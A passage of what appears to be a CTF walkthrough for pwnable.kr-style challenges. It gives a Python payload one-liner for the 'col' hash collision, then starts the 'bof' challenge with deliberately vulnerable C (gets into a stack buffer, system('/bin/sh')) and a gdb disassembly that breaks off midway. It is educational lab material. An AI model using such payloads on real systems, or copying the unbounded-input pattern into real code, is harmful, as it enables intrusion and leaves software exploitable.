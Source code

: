 What does the program do ?  It basically takes an argument (20 bytes), converts every 4 bytes to an int and adds it all together. If the sum is 0x21DD09EC we get the flag.

So we can approach this by dividing 0x21DD09EC by 5 but it's not dividable so we divide by 4 and add the remainder. After converting it to decimal and doing some basic math we come up with this: 568134124 = 4 x 113626824 + 113626828.

4 x 4 bytes of 113626824 (0x06C5CEC8) then 4 bytes of 113626828 (0x06C5CECC).

So our payload is going to be :
```./col $(python -c "print '\xc8\xce\xc5\x06'*4+'\xcc\xce\xc5\x06'")```
(don't forget the endianess :) )

And we get flag !!

# bof

Buffer Overflows. Many hate hearing it and some even fear it. It's easy stuff once you get the hang of it so let's overflow some buffers.

{% highlight c %}

  #include <stdio.h>
  #include <string.h>
  #include <stdlib.h>
  void func(int key){
          char overflowme[32];
          printf("overflow me : ");
          gets(overflowme);       // smash me!
          if(key == 0xcafebabe){
                  system("/bin/sh");
          }
          else{
                  printf("Nah..\n");
          }
  }
  int main(int argc, char* argv[]){
          func(0xdeadbeef);
          return 0;
  }
{% endhighlight %}

This one is rather simple. Overflow the buffer and overwrite 'key' with 0xcafebabe.

let's run it in gdb and disassemble 'func'.

```
gef➤  disassemble func
Dump of assembler code for function func:
   0x5655562c <+0>:	push   ebp
   0x5655562d <+1>:	mov    ebp,esp
   0x5655562f <+3>:	sub    esp,0x48
   0x56555632 <+6>:	mov    eax,gs:0x14
   0x56555638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x5655563b <+15>:	xor    eax,eax
   0x5655563d <+17>:	mov    DWORD PTR [esp],0x78c
   0x56555644 <+24>:	call   0x56555645 <func+25>
   0x56555649 <+29>:	lea    eax,[ebp-0x2c]
   0x5655564c <+32>:	mov    DWORD PTR [esp],eax
   0x5655564f <+35>:	call   0x56555650 <func+36>
   0x56555654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <+47>:	jne    0x5655566b <func+63>
   0x5655565d <+49>:	mov    DWORD PTR [esp],0x79b
   0x56555664 <+56>:	call   0x56555665 <func+57>
   0x56555669 <+61>:	jmp    0x56555677 <func+75>